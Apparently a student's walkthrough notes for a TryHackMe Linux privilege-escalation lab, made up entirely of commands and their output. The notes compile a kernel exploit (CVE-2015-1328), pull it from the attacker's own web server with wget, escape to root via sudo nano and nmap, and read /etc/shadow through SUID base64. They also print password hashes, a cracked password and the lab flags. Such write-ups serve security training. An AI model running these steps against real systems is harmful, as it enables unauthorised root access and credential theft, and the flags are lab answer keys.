 ssh karen@10.10.171.207

hostname
wade7363

cat /proc/version
3.13.0-24-generic

cat /etc/issue
Ubuntu 14.04 LTS

python --version
Python 2.7.6

https://www.exploit-db.com/exploits/37292
CVE-2015-1328

gcc 37292.c -o ofc

sudo python3 -m http.server --bind 10.18.6.119 8080
cd tmp
wget http://10.18.6.119:8080/ofc

chmod +x ofc
ls -la

find / -type f -name '*flag2*.txt' 2>/dev/null
cat /home/matt/flag1.txt
THM-28392872729920

https://gtfobins.github.io/gtfobins/nano/#sudo
sudo nano
^R^X
reset; sh 1>&0 2>&0
id

find / -type f -name '*flag2*.txt' 2>/dev/null
cat /home/ubuntu/flag2.txt
THM-402028394

sudo nmap -interactive
cat /etc/shadow
$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1

cat /etc/passwd
gerryconway

find / -type f -perm -04000 -ls 2>/dev/null

LFILE=/etc/shadow
/usr/bin/base64 "$LFILE" | base64 --decode
$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/
Password1

find / -type f -name '*flag3*.txt' 2>/dev/null
LFILE=/home/ubuntu/flag3.txt
/usr/bin/base64 "$LFILE" | base64 --decode
THM-3847834
